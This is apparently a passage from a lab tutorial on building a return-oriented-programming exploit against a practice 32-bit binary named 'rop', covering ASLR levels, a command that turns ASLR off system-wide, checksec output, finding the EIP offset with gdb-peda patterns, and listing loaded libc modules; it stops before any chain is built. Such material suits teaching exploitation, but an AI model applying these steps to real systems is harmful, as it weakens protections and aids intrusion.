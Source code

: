 ### Disable ASLR
ASLR has following flags options
- `0`:  No Randomization
- `1`: Conservative Randomization
    - `Shared libraries`
    - `Stack`
    - `Mmap`
    - `VDSO`
    - `Heap`
- `2` Full Randomization
    - `Brk()`

For ease of understanding let us switch off the ASLR:
```
$ echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```
### Check the security attributes of binary using `gdb-peda`
```
$ gdb-peda -q ./rop
Reading symbols from ./rop...done.

gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : ENABLED
RELRO     : FULL
```
### Find the offset to `EIP`
Now, let's find the offset to the `EIP` in this program using `pattern_create` and `pattern_offset` commands:
```
gdb-peda$ pattern_create 50 patt.txt
gdb-peda$ r $(cat patt.txt)
Stopped reason: SIGSEGV
0x2d414143 in ?? ()
gdb-peda$ pattern_offset 0x2d414143
759251267 found at offset: 18
```
### Find gadgets and build the ROP chain
 We have to find the required gadgets from the `libc` library used by our program. In order to find the `libc` version, load the program in `gdb-peda` and put a breakpoint at `main()`:
```
gdb-peda$ b main
```
Run the program and use `vmmap` to see the modules loaded by the program

```
gdb-peda$ vmmap
Start      End        Perm	Name
0x56555000 0x56556000 r-xp	/home/cdac/prac-examples/rop
0x56556000 0x56557000 r--p	/home/cdac/prac-examples/rop
0x56557000 0x56558000 rw-p	/home/cdac/prac-examples/rop
0xf7ddd000 0xf7fb2000 r-xp	/lib/i386-linux-gnu/libc-2.27.so
0xf7fb2000 0xf7fb3000 ---p	/lib/i386-linux-gnu/libc-2.27.so
0xf7fb3000 0xf7fb5000 r--p	/lib/i386-linux-gnu/libc-2.27.so
0xf7fb5000 0xf7fb6000 rw-p	/lib/i386-linux-gnu/libc-2.27.so
0xf7fb6000 0xf7fb9000 rw-p	mapped
0xf7fcf000 0xf7fd1000 rw-p	mapped
...
```